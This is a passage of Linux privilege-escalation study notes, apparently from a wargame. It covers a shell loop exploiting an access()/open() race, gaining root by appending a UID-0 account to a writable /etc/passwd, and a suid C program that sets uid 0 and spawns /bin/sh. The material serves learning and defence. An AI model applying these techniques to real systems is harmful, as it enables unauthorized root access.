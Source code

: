 ```none
while true; do ./flagXX /tmp/token 192.168.56.1 ; done
```

Learning:

Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

### Writable /etc/passwd or account credentials came from a legacy unix system

- Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information.
- For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow.
- Also, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled.
- If passwordless accounts are disabled, you can put the hash of a password of your choice. we can use the mkpasswd to generate password hashes, for example

  ```none
  Usage: mkpasswd [OPTIONS]... [PASSWORD [SALT]]
  Crypts the PASSWORD using crypt(3).

      -m, --method=TYPE     select method TYPE
      -5                    like --method=md5
      -S, --salt=SALT       use the specified SALT
      -R, --rounds=NUMBER   use the specified NUMBER of rounds
      -P, --password-fd=NUM read the password from file descriptor NUM
                              instead of /dev/tty
      -s, --stdin           like --password-fd=0
      -h, --help            display this help and exit
      -V, --version         output version information and exit
    
  mkpasswd can generate DES, MD5, SHA-256, SHA-512
  ```

- It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

### Elevating privilege from a suid binary

If we have ability to create a suid binary, we can use either

Suid.c

```none
int main(void) {
setgid(0); setuid(0);
execl(“/bin/sh”,”sh”,0); }
```
